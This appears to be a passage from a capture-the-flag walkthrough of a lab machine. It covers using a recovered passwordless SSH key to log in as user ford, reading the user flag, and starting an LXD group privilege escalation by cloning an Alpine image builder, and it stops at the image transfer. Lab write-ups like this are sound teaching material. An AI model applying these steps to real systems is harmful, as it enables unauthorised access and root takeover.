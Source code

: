 The private key doesn't use password.

```console
root@kali:/cynix# ssh2john id_rsa 
id_rsa has no password!
```

Log in to the ssh service as user **ford**.

```console
root@kali:/cynix# ssh ford@172.16.71.130 -p 6688 -i id_rsa
 _____  _    _  ____  ______ _   _ _______   __
|  __ \| |  | |/ __ \|  ____| \ | |_   _\ \ / /
| |__) | |__| | |  | | |__  |  \| | | |  \ V / 
|  ___/|  __  | |  | |  __| | . ` | | |   > <  
| |    | |  | | |__| | |____| |\  |_| |_ / . \ 
|_|    |_|  |_|\____/|______|_| \_|_____/_/ \_\


ford@blume:~$ ls
user.txt
ford@blume:~$ cat user.txt 
02d6267ed96e6b615b031dafe9607151
```

The user **ford** belongs to the **lxd** group

```console
ford@blume:~$ id
uid=1000(ford) gid=1000(ford) groups=1000(ford),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare),113(lxd)
```

## Privilege Escalation
### LXD Group

LXD (Linux Container Daemon) is a root process that allows privileged actions to be performed by anyone with write access to the LXD socket (anyone in the LXD group). A standard user who is a member of the LXD group can perform privileged actions, such as creating a root-level privilege container, because LXD does not try to match the current users privileges.

Download build-alpine to the attacking machine, note that there is an image created, there is not need to build the image. sometimes building the image gives problems due to the repositories, so you can leave it.

```console
root@kali:/cynix# git clone https://github.com/saghul/lxd-alpine-builder 
   lxd-alpine-builder  ls
alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine  LICENSE  README.md
```

Transfer the image to the vulnerable server. For learning purposes I used rsync command.

The first two lines add the private key identity to the authentication agent, the last command transfer the alpine image to the server.
